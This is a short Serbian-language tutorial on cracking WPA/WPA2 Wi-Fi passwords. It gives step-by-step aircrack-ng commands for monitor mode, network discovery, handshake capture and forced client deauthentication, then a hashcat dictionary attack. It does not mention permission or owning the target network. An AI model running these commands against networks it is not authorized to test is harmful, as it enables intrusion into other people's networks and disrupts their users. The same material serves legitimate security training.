 WIFI HACKING
============

razbijanje WPA/WPA2 uz pomoc `aircrack-ng` i `hashcat` alata.
-------------------------------------------------------------

Priprema
========

Potrebno je instalirati programe `aircrack-ng` i `hashcat`. I drajvere
za graficku karticu.

Podesavanje wifi interfejsa
---------------------------

Pronadjemo naziv interfejsa uz pomoc komande\
`ip a`

``` {style="font-size:0.3rem;"}
1: lo:  mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: enp0s25:  mtu 1500 qdisc pfifo_fast state DOWN group default qlen 1000
    link/ether 00:1f:16:37:d8:48 brd ff:ff:ff:ff:ff:ff
3: wls1:  mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:26:c6:8a:00:26 brd ff:ff:ff:ff:ff:ff
    inet 192.168.0.104/24 brd 192.168.0.255 scope global dynamic noprefixroute wls1
       valid_lft 6532sec preferred_lft 6532sec
    inet6 fe80::8afa:e05b:896c:83f5/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
        
```

Zapamtimo ime wifi interfejsa, u ovom slucaju *wls1* posle aktiviranja
**monitor mode**-a ime ce postati *wls1mon*, to koristimo u komandama
umesto \<ifacemon\>, kod vas ime moze biti drugacije.

Monitor mode
============

Komandom\
`airmon-ng start <iface>`\
ubacujemo mreznu karticu u **monitor mode**. Monitor mode nam daje
potpunu kontrolu nad mreznom karticom. I on nam omogucava da uzmemo **handshake** koji nam je
potreban za dalje.

Nalazenje mreze
===============

Komandom\
`airodump-ng <ifacemon>` posmatramo koje se mreze nalaze oko nas.
Videcemo tabelu i odatle su nam bitna sledeca polja:

-   **CH**, kanal, ovo je bitan podatak za dalji rad
-   **BSSID**, MAC adresa mreze
-   **ENC**, zastita, trazimo WPA/WPA2
-   **PWR**, snaga signala, sto veci broj to bolje
-   **AUTH**, mod autentifikacije, trazimo **PSK**

Hvatanje handshake-a
====================

Kada odredimo koju mrezu napadamo krecemo da slusamo za **handshake**
komandom\
`airodump-ng -c <kanal> --bssid <BSSID> -w handshake <ifacemon>` Da
bismo snimili handshake potrebno je da se neko poveze na mrezu, dakle
cekamo dok se to ne desi. Kada je handshake uhvacen to ce pisati u
gornjem desnom uglu. Tada mozemo da prekinemo slusanje. Ispod tabele za
mrezama nalazi se tabela sa klijentima, za aktivno skidanje klijenta nam
je potrebna MAC adresa pa je korisno to zapisati.

Hvatanje handshake-a
====================

Ukoliko nam se ne ceka, mozemo nekoga skinuti sa mreze i cekati da se
opet poveze. Pre svega ostavimo `airodump-ng` da slusa, ista komanda kao
na prethodnoj strani. I onda skinemo sve klijente sa mreze komandom:\
`aireplay-ng -0 10 -a <BSSID> <ifacemon>` Ukoliko ne uspe iz prve,
probamo opet. Mozemo i skinuti pojedinacnog klijenta sledecom komandom
`aireplay-ng -0 10 -a <BSSID> -c <MAC_KLIJENTA> <ifacemon>`

Priprema handshake-a za hashcat
===============================

Posle uspesno uhvacenog handshake-a u folderu ce se pojaviti par novih
fajlova. Bitan fajl nam je `handshake-01.cap` od njega pravimo fajl koji
`hashcat` moze da procita komandom\
`aircrack-ng -j handshake-01 handshake-01.cap` Sada imamo `handshake-01.hccapx` njega
razbijamo uz pomoc `hashcat`-a komandom\
`hashcat -m 2500 handshake-01.hccapx recnik.txt`

Informacije za dalje
====================

-   `man aircrack-ng`, `man hashcat`
-   `https://www.aircrack-ng.org/doku.php`wiki od aircrack-ng
-   `https://hashcat.net/wiki/`, hashcat wiki
